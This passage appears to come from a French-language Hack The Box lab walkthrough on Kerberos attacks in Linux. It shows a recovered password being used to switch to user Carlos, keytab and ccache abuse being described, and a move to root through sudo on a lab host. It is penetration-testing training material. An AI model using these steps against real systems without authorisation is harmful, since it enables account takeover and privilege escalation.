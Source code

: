 Comme nous pouvons le voir sur l'image, le mot de passe de l'utilisateur Carlos est Password5. Nous pouvons maintenant nous connecter en tant que Carlos.

### Connectez-vous en tant que Carlos
```
david@inlanefreight.htb@linux01:~$ su - carlos@inlanefreight.htb

Password: 
carlos@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647402606_ZX6KFA
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:01:13  10/07/2022 21:01:13  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 11:01:13
```

### Obtenir plus de hachages
Carlos a une tâche cron qui utilise un fichier keytab nommé svc_workstations.kt. Nous pouvons répéter le processus, déchiffrer le mot de passe et nous connecter en tant que svc_workstations.

## Abus du cache Keytab
Pour abuser d'un fichier ccache, tout ce dont nous avons besoin est de privilèges de lecture sur le fichier. Ces fichiers, situés dans /tmp, ne peuvent être lus que par l'utilisateur qui les a créés, mais si nous obtenons un accès root, nous pourrions les utiliser.

Une fois que nous nous sommes connectés avec les informations d'identification de l'utilisateur svc_workstations, nous pouvons utiliser sudo -l et confirmer que l'utilisateur peut exécuter n'importe quelle commande en tant que root. Nous pouvons utiliser la commande sudo su pour changer l'utilisateur en root.@

### Privilege Escalation to Root
```
dsgsec@htb[/htb]$ ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
                  
svc_workstations@inlanefreight.htb@10.129.204.23's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)          
...SNIP...

svc_workstations@inlanefreight.htb@linux01:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo su
root@linux01:/home/svc_workstations@inlanefreight.htb# whoami
root
```

